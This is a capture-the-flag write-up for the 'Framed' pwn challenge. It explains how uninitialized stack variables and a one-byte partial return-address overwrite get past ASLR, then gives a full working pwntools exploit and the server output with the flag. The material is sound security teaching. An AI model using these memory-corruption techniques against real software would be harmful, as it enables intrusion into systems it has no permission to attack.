



# Framed (pwn)

## Task
>If you're not careful enough you can get framed into something you didn't do!
>
> * ``nc framed.zajebistyc.tf 17005``
> * [https://omh2021.fra1.cdn.digitaloceanspaces.com/ef450372fa91137eb9cdc53d34b466cba26a323c0f0f2e2351a284c579526595_framed.tar.gz](https://omh2021.fra1.cdn.digitaloceanspaces.com/ef450372fa91137eb9cdc53d34b466cba26a323c0f0f2e2351a284c579526595_framed.tar.gz)

We were given a sample binary to analyze & a vulnerable server to exploit in order to get the flag.

# Analysis

## Overview

Running checksec on the challenge file shows:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

The file itself is constructed from two functions called from ``main``: 
* ``hello`` - Asks for your name & store the string on the stack. Annoyingly, it almost vulnerable for buffer overflow, but not actually overflows.
* ``feeling_lucky`` - has a buffer overflow in it, but requires you to win a 'game of chance' first(which, is not in your favor) in order to trigger the overflow. 
 

``feeling_lucky`` is below:



You enter the 'amount of shuffles' you want to perform as a player and the program runs in a loop (notice the ``loc_A6A`` branch) to generate numbers with ``_rand``. 

If you're lucky enough, you'll get a message saying ``Seems you're lucky!`` following a prompt that lets you write ``0x1337`` bytes into memory. If not, it will jump straight to a  ``Nope :(`` message.

So our goal is to be lucky enough, but we can't rely on ``_rand`` to actually help us with this.

## Exploitation part 1 - getting luck(y)

* When ``hello``, asks for your name, we fill the buffer and make sure to put ``0xdeadbeefcafebabe`` in it. 
* When ``feeling_lucky`` asks us _'How many shuffles?'_, we answer 0. This will jump straight to the comparasion of "un-initilized" variables. Those variables values' will be the values from the previous stack frame(from ``hello``) 😈
* This will allow us to get a _"Seems you're lucky!"_ message and unlock the vulnerable part for buffer overflow(bottom left in the screenshot above)

After unlocking the _"Seems you're lucky!"_ message, we need to continue exploitation & overcome other protections(NX/ASLR).


## Exploitation part 2 - getting the flag

It's good that the binary already has a ``flag`` function that prints the flag. However, ASLR is enabled and we don't know where this function is located in memory on the destination server.

When digging into the binary more, I realized we don't even have to get a leak / break ASLR and know the full address of ``flag``. This is because ``flag`` and ``main+71``(=the return address of ``feeling_lucky``) are both allocated in the same page. 

Yes, it's a random page(due to ASLR), but they are both allocated in the **same page** in memory(notice that the only difference is just one byte. ``0x1b`` <~> ``0x14``)




Hence: instead of overwriting the entire return address, we can just overwrite the least significant byte of it(replacing ``0x14`` with ``0x1b``). This will return us back to ``flag`` instead of ``main+71`` without having to know the full address of ``flag`` in memory.




backtrace before:
```
───────────────────[ BACKTRACE ]───────────────────
 ► f 0     56279e198aa3 feeling_lucky+162
   f 1     56279e198b14 main+71
   f 2     7f5d813f90b3 __libc_start_main+243
───────────────────────────────────────────────────
````

backtrace after:

```
───────────────────[ BACKTRACE ]───────────────────
 ► f 0     56279e198aa8 feeling_lucky+167
   f 1     56279e198b1b flag
   f 2                0
───────────────────────────────────────────────────
```

Now all we do is wait for a ``ret`` instruction :D

# Solution

I added inline comments

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./chall_framed')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('framed.zajebistyc.tf', 17005)
    else:
        return process([exe.path] + argv, *a, **kw)

# ./solve.py GDB
gdbscript = '''
tbreak main
# break *0x0000555555554aa3
continue
'''.format(**locals())

io      = start()
RBP_OFF = 0x30 # (rbp - dst_buffer) = 0x30


# prepping the stack frame for the next call
payload  = b'A'*(RBP_OFF)
payload += p64(0xcafebabedeadbeef) 
io.sendlineafter(b'name?', payload) 


# abusing `feeling_lucky()` and unlocking the hidden BOF 
io.sendlineafter(b'shuffles?', b'0') # 0 shuffling in order to abuse the uninitialized variables 
                                     # on the stack from the previous frame


# after winning the game, procceed with a regular stack-based BOF 
payload = b'B'*(RBP_OFF+0x8) 
payload += b'\x1b' # overwriting the LSB(least significant byte) of ret addr with '0x1b', this  
                    # allows to overcome ASLR. Because the `flag` function and 
                    # `main` are allocated in the same (random) page in memory,
                    # we can just overwrite the last byte to re-direct code execution
                    # to another function and not main without knowing the full random address.
io.recvuntil(b'Seems you')
io.send(payload)
io.interactive() # profit
```

output:
```
root@56bec2e1a941:~/ctfs/omh2021/framed# python3 solve.py REMOTE
[*] '/root/ctfs/omh2021/framed/chall_framed'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to framed.zajebistyc.tf on port 17005: Done
[*] Switching to interactive mode
!
Read 57 payload bytes
flat{uninitialized_variables_are_not_really_uninitialized}
```